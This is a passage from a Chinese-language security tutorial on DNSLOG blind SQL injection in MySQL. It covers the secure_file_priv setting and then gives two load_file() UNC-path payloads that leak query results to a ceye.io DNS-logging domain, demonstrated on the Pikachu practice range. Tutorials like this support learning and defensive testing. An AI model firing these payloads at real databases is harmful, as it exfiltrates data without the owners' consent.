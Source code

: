 -   当`secure_file_priv`为空，就可以读取磁盘的目录
-   当`secure_file_priv`为`G:\`，就可以读取 G 盘的文件
-   当`secure_file_priv`为 null，`load_file()`函数就不能加载文件（null 和空是两种情况） ### DNSLOG 盲注原理

先给出最常用的两种 Payload

```php
Payload 1:
and if((select load_file(concat('//',(select 攻击语句),'.xxxx.ceye.io/sql_test'))),1,0)

Payload 2:
and if((select load_file(concat('\\\\',(select 攻击语句),'.xxxx.ceye.io\\sql_test'))),1,0)
```

Payload 1,2 大体的思路都是一样的，也就是在`if()`函数中嵌套`load_file()`函数再使用 UNC 路径进行读取，`sql_test`这里写什么都可以，只是为了符合`load_file()`函数格式，读取时会产生 DNS 访问信息，唯一的不同点在于 Payload 2 在 URL 中使用`\(反斜杠)`时要双写配合转义

> 转义：转义是一种引用单个字符的方法。一个前面放上转义符 () 的字符就是告诉 shell 这个字符按照字面的意思进行解释

这里使用 Pikachu 靶场的时间盲注关卡进行演示，方便大家进行理解，在测试前一定先要确保`secure_file_priv`选项为空，可以使用`show variables like '%secure%';`进行查询  
![](assets/1707473863-41c4c902b5a23c156c9f6c0f250f1587.png)  
在修改`my.ini`文件时需要注意`secure_file_priv`选项是新增的，本身并没有这个选项  